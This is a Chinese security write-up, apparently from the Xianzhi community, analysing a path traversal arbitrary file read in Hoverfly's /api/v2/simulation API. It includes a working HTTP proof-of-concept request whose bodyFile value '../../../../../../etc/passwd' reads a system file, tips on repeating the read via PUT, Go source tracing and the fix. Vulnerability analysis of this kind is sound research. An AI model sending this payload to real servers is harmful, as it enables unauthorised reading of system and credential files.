








# Hoverfly 任意文件读取漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/16441  
> **文章ID**: 16441

---

# Hoverfly 任意文件读取漏洞分析

## 漏洞描述

Hoverfly 是一个为开发人员和测试人员提供的轻量级服务虚拟化/API模拟/API模拟工具。其 `/api/v2/simulation` 的 POST 处理程序允许用户从用户指定的文件内容中创建新的模拟视图。然而，这一功能可能被攻击者利用来读取 Hoverfly 服务器上的任意文件。尽管代码禁止指定绝对路径，但攻击者可以通过使用 `../` 段来逃离 `hf.Cfg.ResponsesBodyFilesPath` 基本路径，从而访问任何任意文件。这个问题是通过在路径表达式中使用未受控数据发现的 CodeQL 查询（针对 python）。建议用户确保最终路径（`filepath.Join(hf.Cfg.ResponsesBodyFilesPath, filePath)`）包含在预期的基本路径（`filepath.Join(hf.Cfg.ResponsesBodyFilesPath, "/")`）内。

## 环境搭建

首先我们确定漏洞的版本，看到漏洞修复的版本  


那我们下载 1.10.2

直接 docker 是最方便的

```
docker pull spectolabs/hoverfly:v1.10.2

```

```
┌──(root㉿kali)-[/home/lll/Desktop]
└─# docker run -d -p 8888:8888 -p 8500:8500 spectolabs/hoverfly:v1.10.2   
dc500d2f19c75212c401aaeb9ebc4107e066c21c6ba1566df760302b2230fac6

```

然后访问环境

  
表示搭建成功

## 漏洞复现

这里有两种触发漏洞的方法，一个是 PUT 请求，一个是 POST 请求，两种利用性的话，put 更大，因为可以多次使用

POC

```
POST /api/v2/simulation HTTP/1.1
Host: 192.168.177.146:8888
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: DG_USER_ID_ANONYMOUS=7033ba251f524b5e815dc1b148dbbdbc; JSESSIONID=3B2EE7639B7231D3AE60969B003AB821; x-token=PfyuxmzgIzp2znoKhRqizLyFJrNfgj9i50QnO7mEHhA
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

{"data":{"pairs":[{
"request":{},"response": {
"bodyFile": "../../../../../../etc/passwd"}} ]},"meta":{"schemaVersion":"v5.2"}}

```

  
成功读取了数据，但是如果你再次想读取其他文件的话就不行了

```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Wed, 01 Jan 2025 18:15:16 GMT
Content-Length: 112

{"warnings":[{"message":"WARNING: data.pairs[0] is not added due to a conflict with the existing simulation"}]}

```

显示 simulation 已经存在

我们可以使用 put 方法



## 漏洞分析

首先我们根据复现情况知道漏洞的触发和我们的请求方法有关系，来到 simulation\_handler.go

```
func (this *SimulationHandler) RegisterRoutes(mux *bone.Mux, am *handlers.AuthHandler) {
    mux.Get("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Get),
    ))
    mux.Put("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Put),
    ))
    mux.Post("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Post),
    ))
    mux.Delete("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.Delete),
    ))
    mux.Options("/api/v2/simulation", negroni.New(
        negroni.HandlerFunc(this.Options),
    ))

    mux.Get("/api/v2/simulation/schema", negroni.New(
        negroni.HandlerFunc(am.RequireTokenAuthentication),
        negroni.HandlerFunc(this.GetSchema),
    ))
    mux.Options("/api/v2/simulation/schema", negroni.New(
        negroni.HandlerFunc(this.Options),
    ))
}

```

可以看见这里是对各种请求方法的分开处理，这里看 PUT 方法

我们可以看官方文档

<https://docs.hoverfly.io/en/latest/search.html?q=%2Fapi%2Fv2%2Fsimulation&check_keywords=yes&area=default#>



PUT  
这会将提供的模拟 JSON 放入 Hoverfly 中，从而覆盖任何现有的模拟数据。  
POST  
这会将提供的模拟 JSON 附加到 Hoverfly 中的现有模拟数据。不会添加请求数据与现有请求数据相同的任何对。

这也是为什么我们 PUT 方法可以多次读取文件的原因

调用 PUT

```
func (this *SimulationHandler) Put(w http.ResponseWriter, req *http.Request, next http.HandlerFunc) {
    err := this.addSimulation(w, req, true)
    if err != nil {
        return
    }

    this.Get(w, req, next)
}

```

最后来到 addSimulation 方法

  
因为覆盖，所以这里会删掉之前的 Simulation，才可以创建新的从而回显

PutSimulation->putOrReplaceSimulation

```
func (hf *Hoverfly) putOrReplaceSimulation(simulationView v2.SimulationViewV5, overrideExisting bool) v2.SimulationImportResult {
    bodyFilesResult := hf.readResponseBodyFiles(simulationView.RequestResponsePairs)
    if bodyFilesResult.GetError() != nil {
        return bodyFilesResult
    }

    if overrideExisting {
        hf.DeleteSimulation()
    }

    result := hf.importRequestResponsePairViewsWithCustomData(simulationView.DataViewV5.RequestResponsePairs, simulationView.GlobalLiterals, simulationView.GlobalVariables)
    if result.GetError() != nil {
        return result
    }

    if err := hf.SetResponseDelays(v1.ResponseDelayPayloadView{Data: simulationView.GlobalActions.Delays}); err != nil {
        result.SetError(err)
        return result
    }

    if err := hf.SetResponseDelaysLogNormal(v1.ResponseDelayLogNormalPayloadView{Data: simulationView.GlobalActions.DelaysLogNormal}); err != nil {
        result.SetError(err)
        return result
    }

    for _, warning := range bodyFilesResult.WarningMessages {
        result.WarningMessages = append(result.WarningMessages, warning)
    }

    return result
}

```

这里读取了数据，我们的洞就在文件读取，所以跟进 readResponseBodyFiles

```
func (hf *Hoverfly) readResponseBodyFiles(pairs []v2.RequestMatcherResponsePairViewV5) v2.SimulationImportResult {
    result := v2.SimulationImportResult{}

    for i, pair := range pairs {
        if len(pair.Response.GetBody()) > 0 && len(pair.Response.GetBodyFile()) > 0 {
            result.AddBodyAndBodyFileWarning(i)
            continue
        }

        if len(pair.Response.GetBody()) == 0 && len(pair.Response.GetBodyFile()) > 0 {
            var content string
            var err error

            bodyFile := pair.Response.GetBodyFile()

            if util.IsURL(bodyFile) {
                content, err = hf.readResponseBodyURL(bodyFile)
            } else {
                content, err = hf.readResponseBodyFile(bodyFile)
            }

            if err != nil {
                result.SetError(fmt.Errorf("data.pairs[%d].response %s", i, err.Error()))
                return result
            }

            pairs[i].Response.Body = content
        }
    }

    return result
}

```

再次跟进 readResponseBodyFile  
这里是出现漏洞的关键点

```
func (hf *Hoverfly) readResponseBodyFile(filePath string) (string, error) {
    if filepath.IsAbs(filePath) {
        return "", fmt.Errorf("bodyFile contains absolute path (%s). only relative is supported", filePath)
    }

    fileContents, err := ioutil.ReadFile(filepath.Join(hf.Cfg.ResponsesBodyFilesPath, filePath))
    if err != nil {
        return "", err
    }

    return string(fileContents[:]), nil
}

```

可以看见没有对目录穿越做任何的处理

## 漏洞修复

  
可以看见多了一个 ResolveAndValidatePath 方法

  
就是加了对../的处理，导致不能目录穿越了
